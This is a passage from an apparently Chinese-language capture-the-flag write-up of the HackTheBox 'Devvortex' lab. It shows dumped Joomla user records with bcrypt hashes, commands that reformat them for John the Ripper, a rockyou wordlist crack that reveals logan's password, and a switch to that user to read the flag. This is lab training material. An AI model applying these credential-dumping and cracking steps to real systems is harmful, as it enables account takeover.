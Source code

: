 ```bash
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-28 02:32:37 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```

将sd4fg_users表的数据复制一下然后稍微整理，准备john暴破：
```bash
└─$ fgrep $2y$10$ creds-mysql.txt | awk -F '|' '{print $4 $6}' | awk '{print $1,$2}' | tr ' ' ':' > creds-mysql-trim.txt
                                                                                                                   
└─$ cat creds-mysql-trim.txt           
lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt creds-mysql-trim.txt   
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (logan)
 (...)
```

突然想起来lewis就是我们进MySQL的用户。logan用户也暴破出来了，那么就切换用户。之前看home目录也有logan，估计user flag就在这了：
```bash
www-data@devvortex:/$ su logan
Password: 
logan@devvortex:/$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:/$ cd
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
d0a5 (...) acf4
```
